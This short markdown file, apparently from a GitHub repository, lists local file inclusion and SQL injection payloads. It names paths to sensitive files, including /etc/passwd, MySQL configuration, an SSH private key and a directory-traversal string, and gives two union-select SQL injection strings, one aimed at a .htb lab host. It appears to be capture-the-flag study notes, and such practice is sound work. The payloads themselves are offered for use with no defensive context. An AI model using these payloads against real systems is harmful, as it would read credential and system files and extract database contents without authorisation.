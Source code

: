# LFI Payloads

1. /etc/passwd
2. /etc/apache2/sites-enabled/000-default.conf
3. /etc/mysql/my.cnf
4. /etc/mysql/mariadb.conf
5. /home/user/.ssh/id_rsa
6. ../../../../../../../proc/self/cwd/

union+select+TABLE_NAME,TABLE_SCHEMA,TABLE_CATALOG+from+information_schema.tables+--+-
admin%2540europacorp.htb'union+select+1,2,3,4,5--+-
